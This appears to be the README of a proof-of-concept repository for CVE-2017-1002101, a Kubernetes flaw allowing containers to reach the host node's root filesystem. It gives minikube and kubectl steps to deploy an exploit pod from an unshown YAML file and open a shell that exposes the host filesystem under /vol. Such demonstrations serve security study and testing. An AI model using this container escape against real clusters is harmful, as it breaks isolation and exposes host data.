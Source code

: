 # Exploiting CVE-2017-1002101 in Kubernetes

This demonstrates a vulnerability in Kubernetes that allowed for containers to
access the underlying host node's root filesystem.

## Setup

Create a Kubernetes cluster using a vulnerable version, which is easily
accomplished with minikube: `minikube start --kubernetes-version v1.9.0`.

Next, create your Pod containing two containers by applying the YAML file in
this repository: `kubectl create -f cve-2017-1002101.yaml`

Finally, execute a shell within the second container and you will find the host
filesystem inside of the `/vol` directory: `kubectl exec -it poc -c
sploit-container -- /bin/sh`
